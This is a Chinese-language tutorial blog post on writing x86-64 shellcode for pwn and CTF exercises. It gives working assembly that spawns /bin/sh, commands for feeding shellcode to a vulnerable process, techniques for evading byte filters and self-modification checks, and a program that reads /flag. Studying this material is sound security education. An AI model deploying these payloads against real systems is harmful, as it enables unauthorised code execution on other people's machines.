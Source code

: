 ```yaml
---
layout: post
tags: [pwn]
title: "shellcode"
date: 2024-8-8
author: wsxk
comments: true
---
```


- [1. 介绍: shellcode是什么](#1-介绍-shellcode是什么)
- [2. 编写shellcode](#2-编写shellcode)
- [3. debugging shellcode](#3-debugging-shellcode)
- [4. Forbidden Bytes](#4-forbidden-bytes)
  - [4.1 常见的限制](#41-常见的限制)
  - [4.2 创造性地构造shellcode!](#42-创造性地构造shellcode)
- [5. Data Execution Prevention](#5-data-execution-prevention)
- [6. shellcode program](#6-shellcode-program)


## 1. 介绍: shellcode是什么<br>
谈起`shellcode`，就要谈起`冯诺依曼架构(Von Neumann Architecture)和哈佛架构(Harvard Architecture)`了<br>
冯诺依曼架构把代码和数据等同的，而哈佛架构设计上就把代码和数据隔离开来。<br>
当今几乎所有架构，例如`x86, ARM, MIPS, PPC(power pc), SPARC(Scalable Processor Architecture,国际最流行的risc体系架构, etc`，都是冯诺依曼架构。<br>
更多了解[https://zhuanlan.zhihu.com/p/481536761](https://zhuanlan.zhihu.com/p/481536761)<br>
哈佛架构只被用在`AVR, PIC`里（这俩架构都主要用在单片机上）<br>
当冯诺依曼架构中，因为数据和代码是混合在一起的，这就导致了`shellcode`的产生<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240808221010.png)
上图中，因为一个编程失误，导致**用户输入(data)被作为代码(code)执行**。<br>

## 2. 编写shellcode<br>
`shellcode`之所以叫`shellcode`，是因为**利用的目标就是达成任意命令执行**,而一个经典的攻击模式就是启动`shell`:`execve("/bin/sh", NULL, NULL)`<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
```
在写完`asm`后，介绍一下编译等涉及汇编的命令吧<br>
```
1. Assembling shellcode:
gcc -nostdlib -static shellcode.s -o shellcode-elf

2. Extracting shellcode:
objcopy --dump-section .text=shellcode-raw shellcode-elf

3. Disassembling shellcode:
objdump -M intel -d shellcode-elf

4. Sending shellcode to the stdin of a process (with user input afterwards):
cat shellcode-raw /dev/stdin | /vulnerable_process

5. Strace a program with your shellcode as input:
cat shellcode-raw | strace /vulnerable_process

6. Debug a program with your shellcode as input:
gdb /vulnerable_process
(gdb) r < shellcode-raw
```
这些命令在编写`shellcode`时是非常有用的，下面还有一些好用的工具可供选择！<br>
```
1. pwntools (https://github.com/Gallopsled/pwntools), a library for writing exploits (and shellcode).

2. rappel (https://github.com/yrp604/rappel) lets you explore the effects of instructions.
easily installable via https://github.com/zardus/ctf-tools  

3. amd64 opcode listing: http://ref.x86asm.net/coder64.html 

4. Several gdb plugins exist to make exploit debugging easier!
https://github.com/scwuaptx/Pwngdb
https://github.com/pwndbg/pwndbg
https://github.com/longld/peda 
```

## 3. debugging shellcode<br>
如果想以高层次的信息来debug，可以用:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode.elf
strace ./shellcode.elf
```
来追踪。<br>
如果想要每条汇编的执行，可以用：<br>
```
gdb ./shellcode-elf
```

## 4. Forbidden Bytes<br>
编写shellcode的时候不总是一帆风顺，即使你碰到了可以写入shellcode1的漏洞，在利用漏洞之前，可能程序对输入做了限制，这里就需要一些其他的`trick`<br>
### 4.1 常见的限制<br>
某些字符在某些函数下会被截断，导致shellcode被截断:<br>

| Byte (Hex Value)      | Problematic Methods |
| :-----------: | :-----------: |
| Null byte \0 (0x00)      | strcpy       |
| Newline \n (0x0a)   | scanf gets getline fgets     |
|Carriage return \r (0x0d)| scanf|
|Space (0x20)| scanf |
|Tab \t (0x09)| scanf |
|DEL (0x7f)| protocol-specific (telnet, VT100, etc)|

### 4.2 创造性地构造shellcode!<br>
直接看例子：展示如何构造神奇shellcode！<br>

|filter| bad| good|
| :-----------:| :--------------:|:-------------:|
|no NULLs| mov rax, 0 (48c7c0**00000000**)|xor rax, rax (4831C0)|
|no NULLs| mov rax, 5 (48c7c005**000000**)|xor rax, rax; mov al, 5 (4831C0B005)|
|no newlines| mov rax, 10 (48c7c0**0a**000000)|mov rax, 9; inc rax (48C7C00900000048FFC0)|
|no NULLs| mov rbx, 0x67616c662f "/flag" (48BB2F666C6167**000000**)|mov ebx, 0x67616c66; shl rbx, 8; mov bl, 0x2f (BB666C616748C1E308B32F)|
|printables| mov rax, rbx (48**89d8**)|push rbx; pop rax (5358, "SX")|

如果约束太多，导致你很难用同义的shellcode绕过，**如果你的shellcode的内存映射是可写的**，需要记住：**code==data**<br>
比如绕过一个`int 3的检查`<br>
```
inc BYTE PTR [rip]
	.byte 0xcb
```
测试用编译命令:`gcc -Wl,-N --static -nostdlib -o test test.s
`<br>
如果约束太复杂了，很难做有用的操作，一个可选的办法是**multi-stage shellcode**，即分阶段注入shellcode<br>
```
1. read(0, rip, 1000).
2. 写入你想写的任何东西，当然这里也要求是映射的代码段是可写的
```
还有一些情况，你的shellcode可能被压缩/加密/分类，需要你自己思考如何写shellcode！<br>

## 5. Data Execution Prevention<br>


## 6. shellcode program<br>
使用如下命令进行编译:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode.elf
objcopy --dump-section .text=shellcode.raw shellcode.elf
```
汇编代码如下:<br>
```asm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 2 # sys_create
        lea rdi, [rip+file_name] # file_name
        mov rsi, 2 # O_RDWR
        syscall
        lea rdi, [rip+file_fd]
        mov [rdi], eax

        mov rax, 0 # sys_read
        mov edi, [rip+file_fd]
        lea rsi, [rip+buffer]
        mov edx, [rip+buffer_len]
        syscall

        mov rax, 1 # sys_write
        mov rdi, 1 # stdout
        lea rsi, [rip+buffer]
        mov edx, [rip+buffer_len]
        syscall
binsh:
        .string "/bin/sh"
file_name:
        .string "/flag"
file_fd:
        .long 0
buffer:
        .space 0x100
buffer_len:
        .long 0x100
```
